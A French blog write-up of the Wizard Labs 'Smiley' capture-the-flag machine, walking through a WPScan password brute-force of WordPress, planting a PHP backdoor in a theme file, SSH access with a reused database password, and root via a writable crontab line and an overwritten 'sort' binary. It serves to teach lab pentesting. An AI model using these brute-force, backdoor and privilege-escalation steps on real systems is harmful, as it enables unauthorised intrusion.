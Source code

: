 ```yaml
---
title: Solution du CTF Smiley de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Nitro
-----

[Wizard Labs](https://labs.wizard-security.net/) est une plateforme de CTF similaire à *HackTheBox* qui permet d'accéder via VPN à un réseau de machines vulnérables.  

Ici c'est l'occasion de s'attaquer à *Smiley*, l'une des machines qui a un niveau de difficulté de 3 sur 10.  

Gathering
---------

Les services accessibles sur la machine sont caractéristiques d'une machine Linux : ssh, rpcbind et un Apache, tous sur leurs ports habituels.  

Le site web renvoie un *Wordpress* géré par un certain *smiley* :  

![Wizard Labs CTF Smiley wordpress site](/assets/img/htb/smiley_wordpress.png)

Je m'empresse d'utiliser [WPscan](https://wpscan.org/) pour énumérer la version de Wordpress et les plugins installés. Cela n'a rien remonté d'intéressant donc on va s'intéresser aux utilisateurs :  

```plain
$ wpscan --url http://10.1.1.42/ -e u1-100 -P top500.txt
[+] Enumerating Users
 Brute Forcing Author IDs - Time: 00:00:01 <=================> (100 / 100) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] smiley
 | Detected By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - smiley / music                                                                                                                                                                    
Trying smiley / nathan Time: 00:00:25 <=================> (325 / 325) 100.00% Time: 00:00:25

[i] Valid Combinations Found:
 | Username: smiley, Password: music
```

Ici j'ai utilisé une wordlist contenant les 500 mots de passe les plus utilisés. On peut trouver des listes de ce site sur Github. *Ncrack* dispose d'une liste similaire [qui contient 5000 passwords](https://github.com/nmap/ncrack/blob/master/lists/top50000.pwd).  

Ces identifiants permettent donc d'accéder à la partie admin du site en se rendant sur */wp-admin*. Dans une situation comme celle-ci on peut installer un module Wordpress qui nous facilite la vie comme pour le [CTF Basic Pentesting: 1]({% link _posts/2018-02-05-solution-du-ctf-basic-pentesting-1-de-vulnhub.md %}) ou bien aller modifier un script PHP d'un thème existant dans *Appearance > Editor* (*footer.php* par exemple).  

![Wizard Labs CTF Smiley wordpress theme edit backdoor](/assets/img/htb/smiley_wp_edit.png)

Via une backdoor PHP insérée dans le script on peut exécuter des commandes sur le système en tant que *www-data* (pas vraiment de surprises).  

Le système est *Linux smiley 3.16.0-6-586 #1 Debian 3.16.56-1 (2018-04-28) i686 GNU/Linux*.  

On note dans */etc/passwd* la présence d'un utilisateur nommé *mike* d'UID 1000.  

Parmi les fichiers qu'il possède on trouve */var/tmp/binary\_as\_root* qui d'après les chaînes présentes dans ce binaire ELF semble être une copie de bash ou d'un autre shell...  

Malgré le nom donné à l'exécutable ce dernier n'est pas setuid et ne dispose pas non plus de [capabilities](https://linux.die.net/man/7/capabilities)...  

PrivEsc
-------

Dans le fichier de configuration de Wordpress on trouve le mot de passe permettant l'accès au MySQL.  

Ça semble inutile de fouiller dans la base *Wordpress* étant donné qu'on dispose du mot de passe de *smiley* mais il s'avère que le mot de passe ci-dessous permette l'accès SSH avec le compte *mike*, de quoi obtenir un shell digne de ce nom :)   

```php
/** The name of the database for WordPress */
define('DB_NAME', 'wpdatabase');

/** MySQL database username */
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'Il0veW0rdpress');
```

Dans le dossier personnel de l'utilisateur on trouve un binaire setuid root :  

```plain
-rwsr-xr-x 1 root root 7332 Dec 27 06:03 /home/mike/listwww
```

Ce dernier a un fonctionnement que l'on peut deviner simplement en appliquant la commande strings dessus :  

```plain
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
setreuid
printf
system
__cxa_finalize
__libc_start_main
GLIBC_2.1.3
GLIBC_2.0
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
UWVS
[^_]
listing /var/www/html
sleep 3
/bin/ls /var/www/html
```

Il effectue donc un *setreuid(0)* avec de lancer deux commandes bash, la première étant une fonction builtin (sleep), l'autre */bin/ls* avec le path complet...  

Ca ne semble pas laisser trop de possibilités à l'exploitation (jouer sur les PATHs et la recherche des exécutables par le binaire) mais avec [ShellShock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) sait-on jamais.  

J'ai donc utilisé [bashcheck](https://github.com/hannob/bashcheck) pour tester la présence de la vulnérabilité bash mais il m'a dis... nope  

```plain
mike@smiley:~$ ./bashcheck
Testing /bin/bash ...
Bash version 4.3.30(1)-release

Variable function parser pre/suffixed [%%, upstream], bugs not exploitable
Not vulnerable to CVE-2014-6271 (original shellshock)
Not vulnerable to CVE-2014-7169 (taviso bug)
Not vulnerable to CVE-2014-7186 (redir_stack bug)
Test for CVE-2014-7187 not reliable without address sanitizer
Not vulnerable to CVE-2014-6277 (lcamtuf bug #1)
Not vulnerable to CVE-2014-6278 (lcamtuf bug #2)
```

J'ai aussi testé la faille XTRACE/PS4 utilisée pour le [CTF /dev/random: k2]({% link _posts/2018-03-13-Solution-du-CTF-devrandom-k2-de-VulnHub.md %}) sans plus de succès.  

La machine a une autre particularité qui ne peux pas échapper à des yeux avisés :  

```plain
-rwxrwxrwx 1 root root  822 Sep  5 05:29 /etc/crontab
```

Mais j'ai beau eu rajouter une ligne pour faire exécuter un script toutes les minutes :  

```plain
*/1 * * * * root /tmp/backdoor.py
```

... rien ne se passait :-|  

L'autre point inhabituel sur cette machine c'est que de nombreux binaires classiques sont word-writables...  

Du coup j'ai ressorti le script que j'avais fait pour le [CTF Homeless]({% link _posts/2018-02-23-Solution-du-CTF-Homeless-de-VulnHub.md %}) qui surveille la liste des processus lancés sur le système histoire de voir de bons candidats à la réécriture.  

Le script montre que les taches CRON sont bien lancées mais bizarrement pas la nôtre :(  

```plain
6028 root /usr/sbin/CRON -f
6029 root /bin/sh -c test -x /etc/init.d/anacron && /usr/sbin/invoke-rc.d anacron start >/dev/null
6031 root /bin/sh -c test -x /etc/init.d/anacron && /usr/sbin/invoke-rc.d anacron start >/dev/null
6038 root /bin/sh /usr/sbin/invoke-rc.d anacron start
6040 root xargs
6041 root xargs
6044 root /bin/sh /usr/sbin/invoke-rc.d anacron start
6049 root /bin/sh /usr/sbin/invoke-rc.d anacron start
```

```plain
13317 root /usr/sbin/CRON -f
13319 root /bin/sh -c   [ -x /usr/lib/php5/sessionclean ] && /usr/lib/php5/sessionclean
13320 root /bin/sh -e /usr/lib/php5/sessionclean
13321 root /bin/sh -e /usr/lib/php5/sessionclean
13322 root sort -rn -t: -k2,2
13323 root sort -u -t: -k 1,1
13324 root /bin/sh -e /usr/lib/php5/sessionclean
13326 root /bin/sh -e /usr/lib/php5/sessionclean
```

Pas bien grave puisque j'ai choisi d'écraser le binaire *sort* par mon script Python initial qui m'a donné un accès root plusieurs minutes plus tard ([voir le Github d'infodox](https://github.com/infodox/python-pty-shells) pour des shells sympas en Python) :  

```plain
root@smiley:~# id
uid=0(root) gid=0(root) groups=0(root)
root@smiley:~# cd /root
root@smiley:~# ls -al
total 40
drwx------  5 root root 4096 Jun 15  2018 .
drwxr-xr-x 21 root root 4096 May  4  2018 ..
-rw-------  1 root root   70 Dec 27 06:20 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root  663 May 10  2018 .mysql_history
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
-rwx------  1 root root   33 May 10  2018 root.txt
drwxr-xr-x  3 root root 4096 May  4  2018 .vagrant
drwxr-xr-x  7 root root 4096 May  4  2018 .vagrant.d
drwx------  2 root root 4096 May  4  2018 .VirtualBox
root@smiley:~# cat root.txt
a16c3--- snip ---60f2b9b
root@smiley:~# cd /home/mike
root@smiley:/home/mike# ls
listwww  user.txt
root@smiley:/home/mike# cat user.txt
b075f--- snip ---88379
```

That's it
---------

Done ! On était dans de l'exploitation Linux très classique : énumération, brute-force puis escalade de privilège par écrasement d'un binaire ou accès à la crontab.  


*Published November 17 2020 at 13:44*
